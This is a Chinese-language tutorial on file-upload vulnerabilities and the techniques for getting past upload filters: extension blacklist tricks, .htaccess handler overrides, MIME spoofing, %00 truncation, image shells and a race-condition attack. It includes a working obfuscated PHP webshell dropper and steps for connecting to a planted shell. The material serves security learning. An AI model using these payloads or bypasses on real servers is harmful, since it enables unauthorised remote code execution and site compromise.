








# 文件上传漏洞原理

> 由于程序员在对用户文件上传功能实现代码上没有严格限制用户上传的文件后缀以及文件类型或者处理缺陷,而导致用户可以越过其本身权限向服务器上上传可执行的动态脚本文件:
>
> 简单的来说:
>
> 服务器端没有对客户端上传的文件进行严格验证或过滤,用户可以上传一个可执行的脚本文件,并通过此脚本获得了执行服务器端命令的能力.


# **文件上传绕过分类**


## JS类防护

>**基本概念**：JS防护就是将上传的文件进行一个格式的验证，但是JS类的防护是用户可以控制的，所以前端的所有验证都是不安全的
>
>
>通过禁用界面JS处理，然后上传1.php文件，可绕过前端检测。关于如何禁用界面JS，可以通过安装插件进行一键禁用。


## 黑名单

### 特殊解析后缀

> 特殊解析后缀绕过是由于黑名单过滤规则不严谨，在某些特定的情况下的后缀也能够被当作php文件进行解析，例如PHP2、php3、php4、phtml、pht等情况。
>
> 如黑名单未禁.phtml：
>
> 


### .htaccess解析

> **基本概念：**.htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
>
> 创建.htaccess代码：
>
> ```php
> <FilesMatch"x.png">
> SetHandlerapplication/x-httpd-php
> </FilesMatch>
> ```
>
> `x.png`为需要解析的文件名字
>
> 然后再传`x.png`内含有一句话木马


### 大小写绕过

> **基本概念：**后缀大小写是通过服务端未将后缀进行统一的格式转换，导致可以上传PHP的文件，同时由于Windows系统对后缀大小写并不敏感，所以当在写PHP的改成Php就会被当作PHP进行解析。
>
> 通过源码得知，并未对其大小进行限制，且是由于是黑名单，只限制了不可以上传的，那么的我们可以对php后缀进行大小写变形，例如：PHP、Php、pHp等。


### 双写绕过

> **基本概念：**双写后缀名即可


### .(点)绕过

> **基本概念：**点绕过其实就是利用了Windows对文件和文件名的限制，当将点放在结尾的时候，就会触发操作系统的命名规范问题，所以在生成文件的时候，添加在结尾的点就会被去除。
>
> 可尝试`. .`


### 空格绕过

> **基本概念：**其实空格绕过和点绕过是一样的，都是利用操作系统的特性来进行解析绕过。具体可以看点绕过的解释
>
> 可尝试`. .`


### ::$DATA绕过

> **基本概念：**在window的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名，且保持::$DATA之前的文件名，他的目的就是不检查后缀名


## 白名单 

> **基本概念：**白名单就是服务端明确可以上传的格式后缀，例如：jpg、png、jpeg等。


### MIME绕过

> 服务端MIME类型检测是通过检查http中包含的Content-Type字段中的值来判断上传文件是否合法的。
>
> 利用Burp抓包，将报文中的Content-Type改成允许的类型
>
> `Content-Type: image/gif（gif图像）`
>
> `Content-Type: image/jpeg（jpg图像）`
>
> `Content-Type: image/png（png图像）`
>
> 


### %00截断

> **基本概念：**%00不是代表空格，而是null，一个空字符，当程序执行到%00后，那么后面的数据就会停止，意思就是误当作结束符，把后面的数据直接忽略了，这就会导致漏洞产生。
>
> 在文件上传后，利用%00截断，在文件扩展名验证的时候，就会取文件的扩展名进行验证，但是在最后保存在本地的时候，%00就会截断文件名，只保存%00之前的内容。
>
> %00只能用于php版本低于5.3的。这里我们需要把phpstudy切换一下版本,把magic_quotes_gpc关闭，以phpstudy为例。其他选项菜单---php扩展及设置---参数开关设置---把magic_quotes_gpc关闭。
>
> **GET截断：**
>
> 需要加上`1.php`,再把下面的`1.php`改成`1.png`
>
> get会自行解码，所以直接`%00`截断即可
>
> 
>
> **POST截断：**
>
> post不会解码，所以需要对%00进行解码操作
>
> 需要加上`1.php+`,再把下面的`1.php`改成`1.png`
>
> 然后选中`+`，再bp的右边选择框把`+`的code值改为`00`
>
> 


## 内容及其它

### 图片马

> **使用条件：**需要有文件包含漏洞
>
> **制作：**先随意找个图片，然后写一个php木马，接着打开命令行
>
> ```
> copy 1.png /b + 2.php 3.png
> ```
>
> `1.png`为原始图片，`2.php`为木马程序，`3.png`为生成的图片名字
>
> **使用：**直接上传生成的图片马，然后抓包查看路径
>
> 
>
> 然后在浏览器拼接路径
>
> 
>
> 然后在构造URL（`include.php?file=`）
>
> http://192.168.1.125/include.php?file=upload/1220230831161827.jpg
>
> 最后用蚁剑访问这个链接


### 二次渲染

> **基本概念：**二次渲染就是在我们上传的图片后，网站会对图片进行二次处理，比如对图片的尺寸、格式、以及网站对图片进行定义的一些要求等进行处理，并且服务器会对里面的内容进行二次替换更新，在处理完后，会生成一个合规的图片在网站上显示出来
>
> 所以我们可把**原始传的图片**和经过网页**二次渲染过的图片**对比**图片16进制相同**的地方，会发现有相同的地方，即我们可把一句话木马的语句插入在此
>
> 
>
> 上面的图片为原图（无恶意代码），下面的图片为二次渲染后的图片，蓝色部分为图片16进制相同的地方，即我们可在原图的蓝色部分插入我们的恶意代码，然后另存为即可
>
> 
>
> 注意：插入的代码位置需要蓝色的位置足够长，且尽量多试试其它位置，不成功可能说因为改了图片别的参数
>
> 
>
> 然后用文件包含构造URL


### 条件竞争

> **基本概念：**条件竞争就是在源代码中是存在校验的，但是校验是在文件上传后，才开始校验，也就是文件先上传至服务器中，然后服务器会对该文件进行校验，当符合的时候则会对文件进行重命名，当文件不符合要求的时候就对将文件进行删除。
>
> 而我们则需要在服务器对文件删除前进行访问，由于文件在访问过程中，服务器是无法删除的，所以就可以利用这个节点实现条件竞争。
>
> 首先我们需要的木马为写马的马
>
> ```
> <?php fputs(fopen('cjc.php','w'),'<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["pass"]));?>');?>
> ```
>
> 然后上传这个马，用bp抓包，在发送到intruder模块
>
> 在payload里改成如图所示
>
> 
>
> 然后准备另外一个intruder模块
>
> 来访问上传的图片位置
>
> 如
>
> 抓包发送到intruder模块
>
> 
>
> 然后这个模块的payload，也跟之前的设置为一样的，然后俩个intruder模块一起攻击，如果第二个intruder模块（访问的模块）出现了状态码为200
>
> 
>
> 即为访问成功
>
> 
>
> 即上马成功
>
> 在用文件包含去访问，蚁剑连接即可

